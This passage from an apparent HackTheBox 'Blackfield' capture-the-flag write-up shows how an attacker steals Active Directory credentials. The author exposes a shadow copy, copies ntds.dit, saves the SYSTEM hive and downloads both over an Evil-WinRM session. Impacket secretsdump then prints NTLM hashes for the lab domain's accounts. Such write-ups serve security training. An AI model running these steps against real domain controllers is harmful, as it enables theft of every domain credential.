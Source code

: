 ```
                - Provider ID: {b5946137-7b9f-4925-af80-51abd60b20d5}
                - Attributes:  No_Auto_Release Persistent No_Writers Differential

Number of shadow copies listed: 1
-> expose %noraj% z:
-> %noraj% = {eef6f0be-3c60-4e69-985d-3bc400a24ff1}
The shadow copy was successfully exposed as z:\.
-> exec "cmd.exe" /c copy z:\windows\ntds\ntds.dit c:\Users\svc_backup\Videos\ntds.dit

The script file name is not valid.

EXEC <file.cmd>
        Execute a script file on the local machine.
        This command is used to duplicate or restore data as part of
        a backup or restore sequence.
```

As I got issues with the `exec` command I manually copied the file afterward:

```
*Evil-WinRM* PS C:\Users\svc_backup\Videos> cp x:\windows\ntds\ntds.dit .
```

Then we can also dump the SYSTEM hive:

```
*Evil-WinRM* PS C:\Users\svc_backup\Videos> reg save hklm\system system.hive
```

Again, we can use [evil-winrm][evil-winrm] native download feature.

```
*Evil-WinRM* PS C:\Users\svc_backup\Videos> download ntds.dit /home/noraj/CTF/HackTheBox/machines/Blackfield/ntds.dit
Info: Downloading C:\Users\svc_backup\Videos\ntds.dit to /home/noraj/CTF/HackTheBox/machines/Blackfield/ntds.dit


Info: Download successful!


```

Finally we can use `secretsdump` from Impacket to extract the hashes.

```
$ secretsdump.py -ntds ntds.dit -system system.hive LOCAL
Impacket v0.9.21 - Copyright 2020 SecureAuth Corporation

[*] Target system bootKey: 0x73d83e56de8961ca9f243e1a49638393
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Searching for pekList, be patient
[*] PEK # 0 found and decrypted: 35640a3fd5111b93cc50e3b4e255ff8c
[*] Reading and decrypting hashes from ntds.dit
Administrator:500:aad3b435b51404eeaad3b435b51404ee:184fb5e5178480be64824d4cd53b99ee:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DC01$:1000:aad3b435b51404eeaad3b435b51404ee:65557f7ad03ac340a7eb12b9462f80d6:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:d3c02561bba6ee4ad6cfd024ec8fda5d:::
audit2020:1103:aad3b435b51404eeaad3b435b51404ee:c95ac94a048e7c29ac4b4320d7c9d3b5:::
support:1104:aad3b435b51404eeaad3b435b51404ee:cead107bf11ebc28b3e6e90cde6de212:::
BLACKFIELD.local\BLACKFIELD764430:1105:aad3b435b51404eeaad3b435b51404ee:a658dd0c98e7ac3f46cca81ed6762d1c:::
BLACKFIELD.local\BLACKFIELD538365:1106:aad3b435b51404eeaad3b435b51404ee:a658dd0c98e7ac3f46cca81ed6762d1c:::
BLACKFIELD.local\BLACKFIELD189208:1107:aad3b435b51404eeaad3b435b51404ee:a658dd0c98e7ac3f46cca81ed6762d1c:::
BLACKFIELD.local\BLACKFIELD404458:1108:aad3b435b51404eeaad3b435b51404ee:a658dd0c98e7ac3f46cca81ed6762d1c:::
```